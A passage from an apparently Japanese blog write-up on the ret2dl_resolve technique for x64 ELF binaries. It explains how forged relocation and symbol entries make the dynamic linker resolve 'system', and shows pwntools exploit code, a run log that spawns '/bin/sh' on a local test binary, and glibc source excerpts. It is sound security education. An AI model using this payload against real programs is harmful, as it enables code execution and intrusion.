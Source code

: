 ```python: exploit.py
payload += pack(0, word_size = '32')
payload += pack(0)
payload += pack(0)
payload += b'system\x00'
payload += b'/bin/sh\x00\x00'
payload += b'a' * (200 - len(payload))

io.send(payload)
io.clean()
io.interactive()
```
実行するとshellが起動できていることが確認できる。
```
$ python3 exploit.py OFFSET=120
[*] Loaded 16 cached gadgets for './a.out'
[*] Switching to interactive mode
$ echo "exploited!"
exploited!
```

## exploitの解説
- 1st stageはこの記事の内容と関係ないので詳しく解説することはしない。ROP chainを組んでwrite関数を用いて指定したアドレスにpayloadを読み込ませている。(base_stageが決め打ちな理由については後述)
- 2nd stageの最初の部分は単にsystem関数の引数をセットしているだけで、addr_cmdの値がpayload中のb'/bin/sh'のアドレスになるように計算している。その次に.pltセクションの先頭アドレスを置いているので'pop rdi; ret;'のret命令によって.pltセクションの先頭にジャンプする。.pltセクションの先頭アドレスの後ろにreloc_offsetが置いてあり、これはpayload中に用意したELF64_Rela構造体を指すように計算してある。
- payload中のELF64_Rela構造体と使用されている各変数を以下に示す。
```python: exploit.py

r_offset = 0x404020
index_dynsym = int((addr_dynsym -  elf.get_section_by_name('.dynsym').header.sh_addr) / 0x18)
r_info = index_dynsym << 32 | 0x7

payload += pack(r_offset) # ELF64_Rela
payload += pack(r_info)
payload += pack(0)
```
r_offsetは(多分)書き込み可能な領域ならどこでもいいのだが、0x404020(read@got.plt)にしている。r_infoは[上](#再配置テーブル)で解説した通り、上位32bitが参照するべきELF64_Sym構造体を指定するシンボルテーブルのindex、下位32bitは再配置タイプになっている。上位32bitはindex_dynsymを32bit左シフトした値になっており、index_dynsymはpayload中に用意したELF64_Sym構造体を指すように計算してある。下位32bitは0x7で、これは以下のように定義されている。
```c: elf.h
#define R_X86_64_JUMP_SLOT	7	/* Create PLT entry */
```
_dl_fixup関数は以下の部分で再配置のタイプがR_X86_64_JUMP_SLOTになっているかチェックするので再配置のタイプは0x7にしておかなければならない。
```c: dl-runtime.c
assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
```
- payload中のELF64_Sym構造体と使用されている各変数を以下に示す。
```python: exploit.py
addr_dynstr = addr_dynsym + 0x18
st_name = addr_dynstr - elf.get_section_by_name('.dynstr').header.sh_addr

payload += pack(st_name, word_size = '32') # ELF64_Sym
payload += pack(0, word_size = '32')
payload += pack(0)
payload += pack(0)
payload += b'system\x00'
payload += b'/bin/sh\x00\x00'
```
st_nameは[上](#シンボルテーブル)で解説した通りシンボル名を指定するためのもので、.dynstrセクションの先頭からのoffsetになっている。この値がpayload中に置いたb'system'のアドレスになるように計算している。(addr_dynstrの値はELF64_Sym構造体の次に置いてある'system'のアドレスになる。) st_otherはアドレスが既に解決済みかどうかを判定するために用いられている。実際、_dl_fixupの以下の処理でチェックが行われている。
```c: dl-runtime.c
if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
```

[^1]: ももいろテクノロジー. "x64でROP stager + Return-to-dl-resolveによるASLR+DEP回避をやってみる". https://inaz2.hatenablog.com/entry/2014/07/27/205322 ,(参照 2022年12月26日) 
[^2]: 坂井 弘亮. リンカ・ローダ実践開発テクニック. CQ出版株式会社, 2020
[^3]: https://elixir.bootlin.com/glibc/glibc-2.31/source/elf/dl-runtime.c#L59
[^4]: D3v17. "Ret2dl_resolve x64: Exploiting Dynamic Linking Procedure In x64 ELF Binaries". https://syst3mfailure.io/ret2dl_resolve ,(参照 2023年1月5日)